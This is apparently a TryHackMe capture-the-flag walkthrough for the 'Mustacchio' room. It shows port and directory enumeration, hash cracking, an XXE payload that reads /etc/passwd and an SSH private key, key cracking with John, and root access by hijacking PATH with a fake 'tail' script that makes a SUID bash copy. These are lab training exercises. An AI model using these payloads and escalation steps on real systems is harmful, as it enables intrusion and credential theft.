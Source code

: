 # Mustacchio

![image](https://user-images.githubusercontent.com/5285547/121743836-e0ac7c80-caf9-11eb-8112-a3e7e5a189bc.png)

[Room Link](https://tryhackme.com/room/mustacchio)

## Enumeration

### Nmap
```bash
nmap -p- -v 10.10.68.59
```

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

```

### Gobuster 

```bash
gobuster dir -u http://10.10.68.59  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```
http://10.10.68.59/
```bash
/gallery.html         (Status: 200) [Size: 1950]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 311] [--> http://10.10.68.59/images/]
/contact.html         (Status: 200) [Size: 1450]                                
/blog.html            (Status: 200) [Size: 3172]                                
/about.html           (Status: 200) [Size: 3152]                                
/custom               (Status: 301) [Size: 311] [--> http://10.10.68.59/custom/]
/robots.txt           (Status: 200) [Size: 28]                                  
/fonts                (Status: 301) [Size: 310] [--> http://10.10.68.59/fonts/] 
```
http://10.10.68.59/custom/
```bash
/css                  (Status: 301) [Size: 315] [--> http://10.10.68.59/custom/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.68.59/custom/js/]
```
http://10.10.68.59/custom/js/
```bash
/users.bak            (Status: 200) [Size: 8192]
/mobile.js            (Status: 200) [Size: 1470]
```

Here I found a users.bak file.  
I downloaded it to check the contents.  
It looked to be a mysql or database command for creating a new user

![image](https://user-images.githubusercontent.com/5285547/121745773-be682e00-cafc-11eb-951c-aff68f56f379.png)

We have a username: Admin 

http://10.10.68.59:8765/
```bash
/home.php             (Status: 302) [Size: 1993] [--> ../index.php]
/index.php            (Status: 200) [Size: 1363]                   
/assets               (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/assets/]
/auth                 (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/auth/] 
```

## Website's (port 80, 8765)

### Port 80

![image](https://user-images.githubusercontent.com/5285547/121744541-f9696200-cafa-11eb-9b2f-eeb05996505d.png)

This portal contains a blog for "mustacchio" brand for all mankind!  
Checking the webpages source code revealed nothing, but i noted a mobile.js script file included.  
Pressing F12 and using the developer console. I looked at the source code for the mobile.js file. 

![image](https://user-images.githubusercontent.com/5285547/121744888-7b598b00-cafb-11eb-8b8d-6741f1d9b90b.png)

I see some md5 at the bottom of the source code so try it on https://crackstation.net/  

![image](https://user-images.githubusercontent.com/5285547/121745099-d55a5080-cafb-11eb-852e-bb56347012c3.png)

Now we have a username and password but nowhere to use them!?

### Port 8765

http://10.10.68.59:8765/

This page presents us with what we need for our credentials, a login page. 

![image](https://user-images.githubusercontent.com/5285547/121746171-5d8d2580-cafd-11eb-9c70-328eff1493a4.png)

## XML

After logging in, we get presented with this page

![image](https://user-images.githubusercontent.com/5285547/121746302-94633b80-cafd-11eb-8967-24ee1bc995f4.png)

Pressing the submit button causes a pop-up box to appear

![image](https://user-images.githubusercontent.com/5285547/121746351-ad6bec80-cafd-11eb-9b68-e51cd7b0a08b.png)

Like it said to, inject some XML!  
I got a payload from the internet here: https://github.com/payloadbox/xxe-injection-payload-list  
After injection, some text appeared at the bottom of the page, indicating some structure needed for the XML.

![image](https://user-images.githubusercontent.com/5285547/121746652-1d7a7280-cafe-11eb-88c7-e39980cafe3f.png)

Checking our payload sent.

```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

Then noting the response we got, which was "Comment Preview, Name, Author, Comment". I built a similar XML element with a root tag.

```xml
<!--?xml version="1.0" ?-->
<root>
 <commentPreview>John</commentPreview>
 <name>Doe</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```

Injecting this into the page left me with better results. 

![image](https://user-images.githubusercontent.com/5285547/121747164-dd67bf80-cafe-11eb-937a-bb120221768d.png)

Lets try to get a file next /etc/passwd as the usual test

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<root>
 <commentPreview>John</commentPreview>
 <name>&ent;</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```
![image](https://user-images.githubusercontent.com/5285547/121747279-13a53f00-caff-11eb-95b2-48b44ee149e2.png)

While I was in the source code I see a comment and some code above to give a few more hints about what to do next. 

![image](https://user-images.githubusercontent.com/5285547/121747510-6e3e9b00-caff-11eb-90a9-27f73d59beeb.png)

We can ssh as Barry but we need his id_rsa key. Using the file inclusion method above, I was able to get his id_rsa.
But, it was locked with a password..

![image](https://user-images.githubusercontent.com/5285547/121747692-b5c52700-caff-11eb-9a2a-fadcbfe6a5c3.png)

Time to get john out for a cracking good time! 

```bash
find / -name ssh2john* 2>/dev/null
python ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/5285547/121747920-03da2a80-cb00-11eb-9a14-3d7389bcb601.png)

## User

Now we can log in as Barry with his password and get our first flag!

```bash
ssh barry@10.10.68.59 -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/121748244-8bc03480-cb00-11eb-8825-a385e9074344.png)

![image](https://user-images.githubusercontent.com/5285547/121748305-a2ff2200-cb00-11eb-93b9-6c121b69bcc1.png)

## Root

Looking around the system I found a strange file in Joe's home file (ELF) called "live_log", 
I check it with strings to see what it may be doing.
We can see the tail binary being called but its path is not absolute! Running the file

![image](https://user-images.githubusercontent.com/5285547/121748473-f1acbc00-cb00-11eb-89a4-f9b57c88396c.png)

```
./live_log
```
I checked the system processes. The file was being run as root.

Knowing a file can be abused using path manipulation, I set about making a file that would be running when the "live_log" was run. 

```bash
cd /tmp
```
```bash
nano tail
#/!bin/bash
cp /bin/bash /tmp/b
chmod u+s /tmp/b
```

Save the file and then enter the next commands so we can run the executable. Then set the path to /tmp first to call our file before the real tail file. 
```bash
chmod +x tail
export PATH=/tmp:$PATH
```

Now we can run and get our last flag.
```bash
/tmp/b -p
```

![image](https://user-images.githubusercontent.com/5285547/121749233-3ab14000-cb02-11eb-9d97-5d8f5f3d6688.png)


Thanks and happy hacking! :)




